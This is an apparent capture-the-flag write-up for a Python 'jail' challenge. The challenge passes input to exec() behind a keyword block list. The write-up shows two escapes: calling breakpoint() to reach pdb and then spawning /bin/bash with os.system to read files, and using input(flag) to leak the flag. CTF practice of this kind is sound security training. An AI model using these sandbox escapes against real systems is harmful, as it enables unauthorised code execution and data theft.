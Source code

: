 # my-little-jail

## problem

They say its hard to make a jail but you can just block stuff right?

```py
flag = "ictf{REDACTED}"

def execute():
    try:
        command = input("> ")
        if command in ['exit', 'quit']:
            return False

        # Disallow certain keywords and built-in methods
        disallowed = ['.','help','print', '__', 'import', 'eval', 'exec', 'os', 'sys', 'open']
        if any(x in command for x in disallowed):
            print("Error: Command not allowed!")
            return True
        
        # Execute command
        result = exec(command)
        if result:
            print(result)
        return True
    except Exception as e:
        print(f"Error")
        return True

if __name__ == "__main__":
    print("Welcome to the Python Jail! You can execute any Python command.")
    print("The goal is to reveal the flag. Type 'exit' or 'quit' to leave.")
    while execute():
        pass
```

## solution

we see that some things are not allowed, but we know the flag is in the global scope.

we can use either the `breakpoint` function to get access to a python shell immediately

```
Welcome to the Python Jail! You can execute any Python command.
The goal is to reveal the flag. Type 'exit' or 'quit' to leave.
> breakpoint()

(Pdb) import os; os.system("/bin/bash")
$ ls
run
$ cat run
...
<file contents including flag>
...
```

or use the `input` function because it prints out it's first argument and flag is in scope

```
> input(flag)
ictf{0h_1_m1ss3d_s0m3th1ng_d1dnt_1}
```

